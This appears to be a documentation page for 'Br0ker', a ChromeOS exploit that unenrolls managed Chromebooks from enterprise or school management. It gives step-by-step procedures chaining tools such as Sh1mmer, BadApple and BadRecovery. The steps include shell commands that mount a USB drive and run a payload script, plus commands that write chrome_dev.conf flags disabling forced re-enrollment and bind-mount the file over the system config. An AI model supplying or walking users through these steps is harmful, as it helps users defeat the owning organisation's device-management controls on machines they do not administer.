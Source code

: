```yaml
---
title: Br0ker
description: Br0ker is an unenrollment exploit for Kernver 5.
author: OlyB
keywords: ["unenrollment", "chromeos exploits", "kernver 5"]
kernver: 5
unenrollment: true
---
```



<PageHeader title={frontmatter.title} description={frontmatter.description} author={frontmatter.author} link={frontmatter.link} kernver={frontmatter.kernver} nolower={frontmatter.nolower}/>

It requires you to be on v132 or lower, which can be achieved by downgrading to v132 LTS. You can also get the bundled update with Sh1mmer, by building with it's [update payload](/kajigs/sh1mmer#update-payload)

### How do I use Br0ker?
Sh1mmer only:
    1. Boot [Sh1mmer](/kajigs/sh1mmer#booting)
    2. Select `Payloads`
    3. Select `Br0ker (unenrollment up to kernver 5)`

BadApple + Sh1mmer:
    1. Enter [BadApple](/kajigs/badapple)
    2. Plug in your Sh1mmer USB drive
    3. Find your USB device by running
        ```
        ls /dev/sd*
        ```
        and noting what shows up. (We'll be using /dev/sdX as an example, but you must replace "X" with the correct letter.)
    4. Run these commands:
        ```
        mkdir -p /mnt/sh1mmer
        mount -o ro /dev/sdX /mnt/sh1mmer
        sh /mnt/sh1mmer/root/noarch/payloads/br0ker.sh
        ```

Sh1ttyOOBE + BadRecovery + Sh1mmer (v135-137)
    1. Perform [Sh1ttyOOBE](/kajigs/sh1ttyoobe), press [Esc+Ref+Pwr], and enter developer mode
    2. Enter unverified [BadRecovery](/kajigs/badrecovery), ignore errors, and wait for the shell.
    3. Once it fully loads, unplug the USB drive used for BadRecovery
    4. Plug in your Sh1mmer USB drive
    5. Find your USB device by running
        ```
        ls /dev/sd*
        ```
        and noting what shows up. (We'll be using /dev/sdX as an example, but you must replace "X" with the correct letter.)
    6. Run these commands:
        ```
        mkdir -p /mnt/sh1mmer
        mount -o ro /dev/sdX /mnt/sh1mmer
        sh /mnt/sh1mmer/root/noarch/payloads/br0ker.sh
        ```

Sh1ttyOOBE + BadBr0ker (v135-137)
    1. Perform [Sh1ttyOOBE](/kajigs/sh1ttyoobe), press [Esc+Ref+Pwr], and enter developer mode.
    2. Enter [BadBr0ker](https://github.com/crosbreaker/badbr0ker?tab=readme-ov-file#i-have-a-usb-what-now).
    3. While __still__ in developer mode, press [Ctrl+Alt+Ref], login as "root" run the following commands.
        ```
        echo --enterprise-enable-unified-state-determination=never >/tmp/chrome_dev.conf
        echo --enterprise-enable-forced-re-enrollment=never >>/tmp/chrome_dev.conf
        echo --enterprise-enable-initial-enrollment=never >>/tmp/chrome_dev.conf
        mount --bind /tmp/chrome_dev.conf /etc/chrome_dev.conf
        initctl restart ui
        ```
    4. Press [Ctrl+Alt+GoBack] and set up the device fully through the setup process. DO NOT POWER OFF THE DEVICE UNTIL FULLY SETUP, OR UNENROLLMENT WILL FAIL.
